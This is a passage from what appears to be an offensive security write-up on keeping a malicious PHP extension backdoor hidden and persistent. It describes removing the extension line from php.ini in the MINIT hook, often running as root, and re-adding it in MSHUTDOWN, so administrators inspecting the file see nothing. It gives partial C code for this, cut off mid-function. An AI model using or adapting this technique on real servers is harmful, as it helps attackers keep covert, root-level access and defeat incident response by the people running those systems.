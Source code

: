 ## 0x01 This php.ini was not modified
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Ok, an alert was generated when we modified the php.ini. Someone SSHs to the server, does a cat to the php.ini and do not see nothing. Does a ls, and the timestamp is fine. The server is restarted gracefully just to double-check that nothing weird happens. __Our backdoor still alive__. What is happening here?

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When our PHP extension is loaded, we no need to keep the line "extesion=path/to/our.so" inside the php.ini file. We can retrieve it to his original status programatically. Taking advantage of the __MINIT__ hook we can delete the line added to the php.ini, so when the extension is loaded this hook will be triggered as root (usually) and we can edit the php.ini file without problems. 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In the same way, we can use __MSHUTDOWN__ to insert a snippet of code destinated to add again the line to the php.ini, so when the server is restarted the line "extension=..." will be added again. The extension will be loaded, the MINIT is executed and the cicle is closed. Using this approach the php.ini file will not show anything weird the most part of the time. A generic function can be expressed like this:


```c
// This code sucks
int modifyExtension(int action) {
    char *source = NULL;
    char *needle = NULL;
    FILE *fp;
    size_t newSize;

    fp = fopen(PHPINI, "a+");
    if (fp != NULL) {
        if (action == 1) {
            if (fseek(fp, 0L, SEEK_END) == 0) {
                long bufsize = ftell(fp); // FileSize
                if (bufsize == -1) {
                    return -1;
                }
                source = malloc(sizeof(char *) * (bufsize + 1)); // Alloc memory to read php.ini
                if (fseek(fp, 0L, SEEK_SET) != 0) {
                    return -1;
                    free(source);
                }
                newSize = fread(source, sizeof(char), bufsize, fp);
                if (ferror(fp) != 0) {
                    return -1;
                    free(source);
                }           
                else {
                    source[newSize++] = '\0';
                    needle = strstr(source, LOCATION);
                    if (needle != 0) {
                        FILE *tmp = fopen("/tmp/.tmpini", "w");
                        fwrite(source, (needle - source - 11), 1, tmp); //11 = len("\nextension=kk.so")
                        fclose(tmp);
                        rename("/tmp/.tmpini", PHPINI);
                    }
                }
                free(source);
            }
            fclose(fp);
        }
        if (action == 0) {
            fwrite("\nextension=", 11, 1, fp);
```